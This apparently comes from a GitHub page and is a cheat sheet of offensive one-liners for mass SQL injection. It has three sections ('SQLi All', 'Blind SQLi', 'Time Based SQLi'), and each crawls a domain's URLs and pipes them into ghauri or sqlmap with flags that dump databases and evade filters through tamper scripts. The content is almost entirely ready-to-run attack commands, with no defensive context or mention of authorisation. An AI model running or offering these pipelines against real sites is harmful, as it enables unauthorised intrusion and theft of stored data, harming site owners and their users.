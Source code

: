 ### SQLi All
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;ghauri -m sqli.txt --random-agent --confirm --force-ssl --level=3 --dbs --dump --batch
```
<p>install <a href="https://github.com/projectdiscovery/urlfinder" target="_blank">urlfinder</a>, <a href="https://github.com/tomnomnom/qsreplace" target="_blank">qsreplace</a>, <a href="https://github.com/tomnomnom/anew" target="_blank">anew</a>, <a href="https://github.com/r0oth3x49/ghauri" target="_blank">ghauri</a></p>

### Blind SQLi
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;ghauri -m sqli.txt --random-agent --confirm --force-ssl --technique=BT --batch --dbs --dump
```
### Time Based SQLi
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;sqlmap -m sqli.txt --technique=T --level=5 --risk=3 --tamper=space2comment,space2plus,space2randomblank,space2morehash,between,randomcase,charencode,symboliclogical --batch --random-agent --no-cast --time-sec=10 --current-db --count
```
<p>install <a href="https://github.com/projectdiscovery/urlfinder" target="_blank">urlfinder</a>, <a href="https://github.com/tomnomnom/qsreplace" target="_blank">qsreplace</a>, <a href="https://github.com/tomnomnom/anew" target="_blank">anew</a>, <a href="https://github.com/sqlmapproject/sqlmap" target="_blank">sqlmap</a></p>
